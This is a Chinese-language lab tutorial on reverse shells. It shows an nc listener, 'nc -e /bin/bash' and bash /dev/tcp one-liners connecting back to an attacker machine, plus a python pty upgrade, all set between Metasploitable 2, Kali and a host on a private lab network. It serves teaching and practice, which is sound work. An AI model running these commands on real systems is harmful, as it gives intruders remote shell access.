


# reverse shell
目标机： metasploitable 2：192.168.122.228  
攻击机：kali linux：192.168.122.221

一般正向连接为攻击机主动建立连接去找目标机，但是目标机有时候不会允许外部主动接入，就需要反弹 Shell 让目标机主动和攻击机建立联系。  
## nc
最简单就是用 nc(netcat) 来建立 reverse shell 了。  
在攻击机监听 2333 端口：  
```bash
nc -lvvp 2333
```

然后目标机执行 
```bash
nc 192.168.122.221 2333 -e /bin/bash
```

之后回到攻击机就可以发现已经监听到目标机了：  



可以运行 shell，但仅是一个标准输入，不是标准的虚拟终端环境，交互性很差，比如 vim 就没办法使用。  
可以用 python 的 pty 模块来建立标准虚拟终端环境：  
``` bash
python -c "import pty;pty.spawn('/bin/bash')"
```



这样就拿到终端环境了。  

## bash 重定向一句话
因为 metasploitable 2 的 bash 太老不支持 `/dev/tcp` 网络重定向，所以把 kali 当成目标机，我们实体机做 reverse shell。  
实体机为： ArchLinux 192.168.122.1  

攻击机一样 nc 监听 2333 端口：  
``` bash
nc -lvvp 2333
```

目标机用如下一句话建立向攻击机建立连接即可，此时攻击机的 nc 会出现 shell，一样仅是标准输入，不是标准 tty。  
``` bash
bash -c 'bash -i &> /dev/tcp/192.168.122.1/2333 0>&1'
```

`bash -c '命令'` 启动一个新的 bash shell，让 bash 执行引号里面的字符串。  
`bash -i` 为交互式 bash,会把 bash 当成交互式终端并读取用户输入。  
`&>`， bash 的重定向写法，把 stdout 和 stderr 一起重定向到目标，也就是 `/dev/tcp/192.168.122.1/2333` 。  
最后的 `0>&1` 将 stdin 重定向到 1 fd，这样将 stdin/stdout/stderr 都通过 TCP 做重定向给攻击机，两台机器通过 TCP 连接传递 shell。  

